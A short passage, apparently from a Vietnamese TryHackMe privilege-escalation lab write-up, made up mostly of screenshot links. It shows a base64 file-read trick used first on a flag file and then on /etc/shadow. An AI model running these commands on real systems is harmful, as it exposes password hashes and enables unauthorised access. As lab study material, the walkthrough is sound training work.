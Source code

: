 ![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image155.png?raw=true)

    LFILE=/home/missy/flag1.txt
    /usr/bin/base64 “$LFILE” | base64 --decode

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image156.png?raw=true)

=> Không tìm được. 

Thử đọc file /etc/shadow:

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image157.png?raw=true)

Tiếp tục thử: 

    LFILE=/etc/shadow
    /usr/bin/base64 “$LFILE” | base64 --decode

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image158.png?raw=true)
